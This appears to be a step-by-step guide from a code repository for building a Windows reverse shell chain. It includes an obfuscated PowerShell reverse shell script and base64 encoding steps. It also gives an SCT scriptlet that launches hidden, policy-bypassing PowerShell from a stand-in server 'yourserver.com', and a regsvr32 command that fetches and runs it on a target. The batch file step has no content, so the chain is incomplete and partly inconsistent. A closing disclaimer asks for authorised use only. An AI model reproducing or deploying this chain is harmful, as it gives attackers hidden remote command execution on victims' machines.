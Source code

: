 Step-by-Step Simulation Guide Note: Files available for adapting in repository .

1. Create the Reverse Shell PowerShell Script
Create a file named reverse_shell.ps1 with the following content:

param (
    [string]$ip,
    [int]$port
)

# Obfuscated variable names
$A = 'Get'+'Stream'
$C = [System.Text.Encoding]::'ASCII'
$b = 0..65535 | % {0}
$Q = 'System.Net.Sockets.TCPClient'
$w = 'Re'+'ad'
$O = 'Wr'+'ite'
$F = 'System.Text.ASCIIEncoding'

$client = New-Object $Q($ip, $port)
$stream = $client.$A()
while (($i = $stream.$w($b, 0, $b.Length)) -ne 0) {
    $d = (New-Object -TypeName $F).GetString($b, 0, $i)
    $S = (iex $d 2>&1 | Out-String)
    $R = $S + "PS " + (pwd).Path + "> "
    $f = $C.GetBytes($R)
    $stream.$O($f, 0, $f.Length)
    $stream.Flush()
}
$client.Close()



2. Encode the Script to Base64
Run the following PowerShell commands to encode the script:

$script = Get-Content -Path .\reverse_shell.ps1 -Raw
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script)
$encoded = [Convert]::ToBase64String($bytes)
$encoded

Copy the resulting Base64 string.

3. Create the Batch File
Create a file named run_reverse_shell.bat with the following content. Replace <Base64_encoded_string> with the Base64 string you copied:

4. Host the Files on a Web Server
Upload run_reverse_shell.bat to your web server.
Ensure it is accessible, e.g., http://yourserver.com/run_reverse_shell.bat.

5. Create the SCT File
Create a file named reverse_shell.sct with the following content. Replace http://yourserver.com/run_reverse_shell.bat with the actual URL of your hosted batch file, and replace attacker_ip and attacker_port with your attacker's IP and port:
<scriptlet>
  <registration>
    <script language="JScript">
      <![CDATA[
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("cmd.exe /c powershell.exe -NoP -NonI -W Hidden -Exec Bypass -File http://yourserver.com/run_reverse_shell.bat attacker_ip attacker_port");
      ]]>
    </script>
  </registration>
</scriptlet>

Upload reverse_shell.sct to your web server.
Ensure it is accessible, e.g., http://yourserver.com/reverse_shell.sct.
6. Execute the SCT File using regsvr32
On the target machine, run the following command to execute the SCT file:

regsvr32 /s /i:http://yourserver.com/reverse_shell.sct scrobj.dll

7. Establish the Reverse Shell Connection
When the SCT file is executed, it will download and run the batch file, which will decode and execute the PowerShell script to establish a reverse shell connection to the specified IP and port.


Important Notes:
Ethical Use: Ensure you have explicit permission to test systems with this script. Unauthorised use is illegal and unethical.
Controlled Environment: Use a controlled environment for testing.
Troubleshooting: Keep a non-obfuscated version of the scripts for troubleshooting and maintenance.
